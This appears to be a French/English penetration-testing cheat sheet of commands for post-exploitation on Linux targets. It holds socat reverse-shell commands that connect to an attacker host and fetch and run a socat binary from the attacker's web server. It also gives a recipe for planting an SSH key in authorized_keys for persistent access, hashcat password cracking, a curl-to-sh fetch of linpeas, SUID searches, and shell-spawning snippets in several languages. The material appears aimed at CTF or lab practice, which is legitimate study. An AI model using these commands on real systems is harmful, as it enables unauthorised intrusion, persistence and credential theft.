 # Dans un reverse shell

## Upgrade a reverse shell to a fully TTY interactive shell

Sometimes we will get a shell but it won't be very convenient. There are some ways to upgrade your shells to interactive TTY reverse shell
if you want a quick dirty little fix but not completely interactive this python command works well for python3
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

## With socat
On your kali
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4440
```
From the victime machine
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:my_ip:4440 
```

If socat is not installed see here for static binaries
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:my_ip:4440
```
OR
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```
In your kali then put on your python3 webserver
and then 
```bash
wget -q http://YOUR-KALI-IP/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR-KALI-IP:4440
```

## Pour avoir un accès ssh

```bash
ssh-keygen -f mykey
# No passphrase
mykey & mykey.pub
mv mykey.pub ~/.ssh/authorized_keys
# Copy mykey to local machine in the .ssh folder
nano mykey # and paste the private key
sudo chmod 600 mykey

ssh -i mykey user@ip
```


# Détecter un hash 

```bash
hashcat hashPWD.txt rockyou.txt

The following 11 hash-modes match the structure of your input hash:

      # | Name                                                | Category
  ======+=====================================================+======================================
    900 | MD4                                                 | Raw Hash
      0 | MD5                                                 | Raw Hash
     70 | md5(utf16le($pass))                                 | Raw Hash
   2600 | md5(md5($pass))                                     | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                    | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))             | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                         | Raw Hash salted and/or iterated
   1000 | NTLM                                                | Operating System
   9900 | Radmin2                                             | Operating System
   8600 | Lotus Notes/Domino 5                                | Enterprise Application Software (EAS)


```

Puis sélectionner le # de l'algo de hashage
Exemple avec RAW MD5
```bash
hashcat -m 0 hashPWD.txt rockyou.txt
```

# Privilege Escalation

## Linux

`sudo -l`

Link Linpeas : https://github.com/carlospolop/PEASS-ng/releases/tag/20230529-e7da582f

`python -m http.server 80 -> curl mon_ip/linpeas.sh | sh`

`find / -perms -4000 -type f 2>/dev/null`
`find / -type f -perm -04000 -ls 2>/dev/null`
`find / -perm -4000 2>/dev/null`
`find / -writable ! -user whoami -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null`


```py
import subprocess
subprocess.call("/bin/sh")
```
```js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
```cpp
#include <cstdlib>
#include <unistd.h>

int main() {
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
```rust
use std::process::Command;

fn main() {
    Command::new("/bin/sh")
        .status()
        .expect("Failed to execute command");
}
```
```go
package main

import (
	"os"
	"os/exec"
)

func main() {
	cmd := exec.Command("/bin/sh")
	cmd.Stdin = os.Stdin
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr
	cmd.Run()
}
```
```java
import java.io.IOException;

public class Main {
    public static void main(String[] args) {
        try {
            Process process = new ProcessBuilder("/bin/sh").inheritIO().start();
            process.waitFor();
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
    }
}
```
